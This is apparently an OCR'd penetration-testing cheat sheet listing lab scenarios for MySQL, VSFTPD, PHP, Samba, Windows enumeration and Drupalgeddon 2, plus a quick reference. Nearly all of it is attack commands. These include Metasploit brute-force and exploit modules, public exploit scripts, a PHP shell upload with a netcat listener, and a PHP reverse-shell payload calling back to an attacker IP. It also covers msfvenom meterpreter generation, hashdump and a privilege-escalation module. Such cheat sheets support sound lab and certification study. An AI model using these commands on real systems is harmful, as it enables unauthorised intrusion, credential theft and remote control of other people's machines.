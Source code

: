 ### Scenario 4: MySQL (WordPress)
- Scan: `nmap -sV -sC -p 3306,8585 <TARGET_IP>`  
- Brute-Force: `use auxiliary/scanner/mysql/mysql_login`  
- Login: `mysql -u root -p -h <TARGET_IP>` → `show databases;`

### Scenario 5: VSFTPD
- Scan: `nmap -sV -sC -p 21 <TARGET_IP>`  
- Exploit: `python3 49757.py <TARGET_IP>`  
- Shell Upload: `ftp <TARGET_IP>` → `put shell.php`  
- Listener: `nc -nvlp <PORT>`

### Scenario 6: Linux Exploitation
- Recon: `nmap -sV -p 1-10000 <TARGET_IP> -oX nmap_10k`  
- Enum: `cat /etc/*release`

### Scenario 7: PHP
- Scan: `nmap -sV -sC -p 80 <TARGET_IP>`  
- Exploit: `python2 18836.py <TARGET_IP> 80`  
- Shell: Modify with `pwn_code = "<?php $sock=fsockopen('<ATTACKER_IP>',<PORT>);exec('/bin/sh -i <&4 >&4 2>&4');?>"`

### Scenario 8: Samba
- Scan: `nmap -sV -p 445 <TARGET_IP>`  
- Exploit: `use exploit/multi/samba/usermap_script`

### Scenario 9 & 10: Windows Local Enumeration
- Meterpreter: `getuid`, `sysinfo`, `hashdump`  
- CMD: `systeminfo`, `net users`, `netstat -ano`  
- JAWS: `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1`

### Drupalgeddon 2 CMS Exploitation
- Recon: `nmap -Pn -sV -F <IP>`  
- Dir Enum: `gobuster dir --url http://<IP> --wordlist <DRUPAL_LIST>`  
- Exploit: `./drupalgeddon2.rb http://<IP>`  
- Reverse Shell: `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe > rev.exe`  
- Privesc: `use exploit/windows/local/ms14_058_track_popup_menu`

---

## Quick Reference

### File Transfer
- Python Server: `python3 -m http.server <PORT>`  
- Windows: `certutil -urlcache -f http://<IP>/<FILE> <FILE>`

### Metasploit Modules
- SMB: `use auxiliary/scanner/smb/smb_version`  
- HTTP: `use auxiliary/scanner/http/http_version`  
- SSH: `use auxiliary/scanner/ssh/ssh_login`
